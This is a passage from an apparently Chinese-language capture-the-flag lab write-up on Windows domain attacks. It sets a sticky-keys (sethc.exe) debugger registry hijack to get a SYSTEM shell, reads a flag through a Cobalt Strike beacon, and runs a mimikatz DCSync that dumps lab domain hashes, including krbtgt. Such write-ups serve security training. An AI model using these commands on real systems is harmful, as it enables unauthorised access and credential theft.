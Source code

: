 添加镜像劫持，提权至 SYSTEM：（键入五下 shift 触发粘滞键 sethc.exe，实际执行 cmd.exe）

```
PS C:\Users\Aldrich\Desktop> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v debugger /t reg_sz /d c:\windows\system32\cmd.exe /f
操作成功完成。

```

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/b86823c83c2f4e13.png)

查看 flag02：

```
beacon> shell type C:\Users\Administrator\flag\flag02.txt
[*] Tasked beacon to run: type C:\Users\Administrator\flag\flag02.txt
[+] host called home, sent: 74 bytes
[+] received output:
   . .    .       . .       . .       .      .       . .       . .       . .    .
.+'|=|`+.=|`+. .+'|=|`+. .+'|=|`+. .+'|      |`+. .+'|=|`+. .+'|=|`+. .+'|=|`+.=|`+.
|.+' |  | `+.| |  | `+.| |  | `+.| |  |      |  | |  | `+.| |  | `+ | |.+' |  | `+.|
     |  |      |  | .    |  |      |  |      |  | |  |=|`.  |  |  | |      |  |
     |  |      `+.|=|`+. |  |      |  |      |  | |  | `.|  |  |  | |      |  |
     |  |      .    |  | |  |    . |  |    . |  | |  |    . |  |  | |      |  |
     |  |      |`+. |  | |  | .+'| |  | .+'| |  | |  | .+'| |  |  | |      |  |
     |.+'      `+.|=|.+' `+.|=|.+' `+.|=|.+' |.+' `+.|=|.+' `+.|  |.|      |.+'




flag02: flag{72cbfc36-11a0-4469-84e9-e399bcd9b5fa}
```

## DCSync

主机 WIN2016$ 在域管理员组中，获取到该主机 SYSTEM 权限后，可以直接使用 DCSync 拿到域管的 hash：

```
[+] established link to parent beacon: 172.22.8.18
[*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:xiaorang.lab /all /csv command
[+] host called home, sent: 297586 bytes
[+] received output:
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500 Administrator 2c9d81bdcf3ec8b1def10328a7cc2f08 512
502 krbtgt 3ffd5b58b4a6328659a606c3ea6f9b63 514
1000 DC01$ 71245ef77b2c964e0a87d31def2f46e3 532480
1103 WIN2016$ 17cf8435dd2d10bab8fa34f3c1365c7d 16781312
1104 WIN19-CLIENT$ 1d6c8bccdf84dc51732b98e9168a525e 16781312
1105 Aldrich a72242c11b0e670aa3c746d61193e775 512
```
